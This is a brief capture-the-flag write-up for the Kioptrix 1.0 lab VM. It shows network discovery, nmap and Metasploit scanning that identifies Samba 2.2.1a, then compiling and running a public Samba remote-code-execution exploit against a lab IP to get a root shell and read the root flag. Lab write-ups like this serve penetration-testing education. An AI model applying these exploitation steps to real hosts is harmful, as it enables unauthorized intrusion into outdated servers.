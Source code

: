*Kioptrix1.0*

**RECON**
---
**Discovery** 
<pre>netdiscover -i eth1</pre>  
192.168.57.1, 192.168.57.5 have open ports
![image9](https://user-images.githubusercontent.com/66635295/158940818-d91d29b5-923c-4acc-9f6b-2091c60363b9.png)


**Nmap Scan**  
<pre>namp -sC -sV -A 192.168.57.5</pre>    
-safescan -version -OS detection     
Port 139 running Samba   
![image6](https://user-images.githubusercontent.com/66635295/158940906-7b990432-a866-4a7c-90a4-832f86c0dafa.png)

**Version Scan**  
<pre>msfconsole</pre>
<pre>use auxiliary/scanner/smb/smb-version</pre>
Samba Version 2.2.1
![image1](https://user-images.githubusercontent.com/66635295/158941165-4041b36e-e43e-4ca3-b01f-134e71fecd21.png)

**Google-Fu**  
<pre>samba 2.2.1a exploit</pre>  
2.2.8 RCE  
![image7](https://user-images.githubusercontent.com/66635295/158942927-e5417000-4f14-40f7-91e0-87c67e61d0df.png)  
![image4](https://user-images.githubusercontent.com/66635295/158942943-428d01f1-8ae4-4681-bd8b-bfcac35135e2.png)  


**ENUMURATION**
---
**Save Exploit**  
![image5](https://user-images.githubusercontent.com/66635295/158943061-9e2fd590-175e-4807-afae-0a78d37c6c87.png)

**Make executable copy**  
<pre>gcc 10.c -o 10</pre>  
GNU compiler outputs copy to executable file   
![image8](https://user-images.githubusercontent.com/66635295/158943348-a0ebcee3-3ce7-46bc-8aec-8a99eecff320.png)  


**Root Escalation**
---
**Shell**
<pre>./10 -b 0 192.168.57.5</pre>
-Bruteforce linux  
![image10](https://user-images.githubusercontent.com/66635295/158943567-b99148a3-410d-4a37-b859-1e207c344df1.png)
  
**Root Flag**  
 <pre>head -n 100 /var/spool/mail/root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158943980-2635c5da-7035-4f71-a491-2bd512c3aaa2.png)


